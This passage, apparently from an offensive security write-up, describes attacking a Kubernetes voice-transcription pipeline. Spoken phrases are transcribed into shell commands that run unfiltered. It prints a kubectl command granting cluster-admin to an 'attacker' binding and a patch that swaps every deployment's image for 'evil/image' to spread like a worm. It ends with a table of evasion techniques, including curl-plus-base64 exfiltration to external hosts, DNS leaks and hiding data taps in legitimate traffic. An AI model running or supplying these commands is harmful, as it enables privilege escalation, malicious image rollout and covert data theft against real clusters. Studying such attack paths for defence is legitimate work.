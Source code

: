 
## 🧑‍🚀 4.4 Privilege Escalation via Transcript

### Voice-triggered Role Escalation Chain

Voice Input:

> “Grant me access to the admin cluster”

Translates to:

```
kubectl create clusterrolebinding attacker --clusterrole=cluster-admin --serviceaccount=default:whisper
```

Dispatcher permits unfiltered shell execution.

If the whisper pod runs with:

```yaml
serviceAccountName: whisper
```

This grants **cluster-admin** to a pod triggered by voice transcription.

---

## 🦠 4.5 Voice-Driven Worm Behavior via Mesh

Voice Command:

> “Install voice pipe everywhere”

Transcript:

```bash
kubectl patch deployment --all -p '{"spec":{"template":{"spec":{"containers":[{"name":"main","image":"evil/image"}]}}}'
```

Effect:

* Installs a rogue image via a voice-triggered transcript
* Mesh routes payloads across all injected pods

---

## 🧼 4.6 Evading Detection — Mesh Audit Blind Spots

| Technique                         | Description                                                      |
| --------------------------------- | ---------------------------------------------------------------- |
| **Voice Exfil via Curl + Base64** | Encodes transcripts into POST bodies to external hosts           |
| **Mesh-Internal DNS Abuse**       | Voice triggers DNS leaks via `dig`/`nslookup` on sensitive names |
| **Tap Obfuscation**               | Embed tap output collection in legit HTTP calls                  |

---